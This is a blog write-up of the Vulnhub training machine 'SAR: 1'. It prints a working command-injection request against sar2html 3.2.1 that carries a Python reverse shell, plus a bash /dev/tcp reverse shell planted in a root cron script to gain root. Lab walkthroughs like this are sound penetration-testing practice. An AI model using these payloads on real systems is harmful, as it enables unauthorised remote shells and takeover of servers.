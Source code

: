 ```yaml
---
layout: post
title:  "Vulnhub - SAR: 1"
date:   2020-10-19 12:00:00 +1100
category: hacking
---
```


## Introduction
*Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.*

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [SAR: 1](https://www.vulnhub.com/entry/sar-1,425/) from vulnhub.

## Ports
HTTP on port 80 only. This already makes things easy because you *know* that you'll be getting a webshell and not (for example) hunting for SSH creds.

## HTTP
robots.txt has one entry: **sar2HTML**, so naturally we go straight there. It's running *sar2html Ver 3.2.1*, which has an unauthenticated RCE vulnerability which I've seen before in the THM [Boiler](https://blog.gibbons.digital/hacking/2020/07/02/boiler.html) room, so I know what to do already. 

## sar2HTML
>In web application you will see index.php?plot url extension.  
http://<ipaddr>/index.php?plot=;<command-here> will execute the command you entered.  
After command injection press "select # host" then your command's output will appear bottom side of the scroll screen.

My preferred method with this is using Burp Suite:

{% highlight html %}
GET /sar2HTML/index.php?plot=;python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("192.168.1.77",1234))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b' HTTP/1.1
{% endhighlight %}

## Privsec
The box has been set up with a cron job to exploit for root. Every 5 minutes, *root* runs a script called *finally.sh* (which we can't edit), which in turn calls *write.sh* (which we can edit). I found this via basic manual enumeration and saw what I had to do almost immediately, but somehow still struggled to get it to execute.

I made several mistakes, including trying to connect to a closed port on my Kali machine (I've recently installed **ufw** and not opened the second port I like to use for a listener), and mixing *bash* with *sh* commands. Anyway my final payload for *write.sh* was:

{% highlight shell %}
root@kali:/opt/vulnhub/sar# cat write.sh 
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.1.77/1235 0>&1
{% endhighlight %}

And that worked fine and I was root and all was right with the world.

